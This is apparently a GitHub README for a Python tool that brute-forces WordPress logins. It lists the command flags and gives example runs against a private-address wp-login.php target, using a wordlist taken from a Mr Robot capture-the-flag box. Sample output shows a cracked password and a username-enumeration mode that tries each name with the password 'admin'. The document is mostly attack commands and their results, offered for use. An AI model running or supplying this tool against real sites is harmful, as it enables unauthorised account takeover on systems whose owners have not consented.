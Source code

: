 # python-wp-bruteforce 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u =  username / file 
* -t = target address 

**target should should look like this http://site.com/wp-login.php**

# usage 🛸: 
## brute force with valid username 🎃:   
python3 bf.py -t http://192.168.254.107/wp-login.php  -u elliot -p /home/mivatampos/ctf/mr_robot_1/fsocity.txt  

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 

      [+] **** PASSWORD FOUND ***** [+] =====> [ER28-0652] for user elliot
      [-] Time lapsed : 0.4780855178833008 seconds  [-] 
      [-] Number of attempts : 10 [-] 
      
 ## Enumarating users 🔎
( just dont provide the -p flag it will use the default "admin" password to attempt the login : \n 
python3 bf.py -t http://192.168.254.107/wp-login.php  -u usernames.txt 

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 
      *** VALID USERNAME WAS FOUND *** ===> [elliot ] 
      [+] Attacking [+] ==> tries : 26 
      *** VALID USERNAME WAS FOUND *** ===> [john] 
      [+] Attacking [+] ==> tries : 40 
      *** VALID USERNAME WAS FOUND *** ===> [example] 
      [+] Attacking [+] ==> tries : 42 

      [x] *** List of valid usernames *** [x]
      
                 [+] elliot [+]
                 [+] john [+]
                 [+] example [+]





